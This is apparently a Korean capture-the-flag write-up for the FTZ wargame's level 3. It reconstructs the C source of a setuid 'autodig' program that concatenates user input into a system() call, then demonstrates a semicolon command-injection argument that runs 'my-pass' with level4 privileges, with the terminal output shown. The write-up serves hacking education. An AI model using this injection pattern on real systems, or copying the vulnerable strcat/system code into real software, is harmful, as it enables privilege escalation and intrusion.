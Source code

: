 
이제 슈도 코드로 만들어보자.. 사용된 함수는 `strcpy`,`strcat`,`setreuid`,`printf`,`system` 함수이다.

```c
#include <stdio.h>

int main(int argc, char *argv[])
{
        char cmd[104];
        if(argc!=2){
                printf("Not enough arguments.\n");
                exit(0);
                }
        strcpy(cmd,"dig @");
        strcat(cmd,argv[1]);
        strcat(cmd," version.bind chaos txt");
        setreuid(3004,3004);
        system(cmd);
        return;
}
```

위와 같이 만들어 컴파일해서 확인하면 정말 매우 비슷하다. 귣

그렇다면 어떻게 `level4`의 권한을 가져올 수 있을까...!!! 인젝션과 비슷한 원리라고 생각하면 쉽게 접근할 수 있다. `dig` 명령어의 옵션 값인 `version.bind chaos txt` 전에 명령어를 끝내고 연속해서 다른 명령어를 실행하는 방법이다.

```
[level3@ftz level3]$ autodig "168.126.63.1 www.naver; my-pass;"

; <<>> DiG 9.2.1 <<>> @168.126.63.1 www.naver
;; global options:  printcmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 32437
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;www.naver.			IN	A

;; AUTHORITY SECTION:
.			2251	IN	SOA	a.root-servers.net. nstld.verisign-grs.com. 2018100101 1800 900 604800 86400

;; Query time: 26 msec
;; SERVER: 168.126.63.1#53(168.126.63.1)
;; WHEN: Tue Oct  2 02:35:47 2018
;; MSG SIZE  rcvd: 102

Level4 Password is "~~~~~~~~~~".

sh: line 1: version.bind: command not found
```

보이는 것과 같이 `""` 으로 인자를 하나로 묶어주고 `;` 을 통해 연속된 명령어를 사용할 수 있도록 해준다. 실제 실행되 명령은 `dig @168.126.63.1 www.naver.com; my-pass; version.bind chaos txt` 와 같이 한줄로 명령들이 실행된다. 맨 아래 결과를 보면 `version.bind: command not found`를 확인할 수 있다.
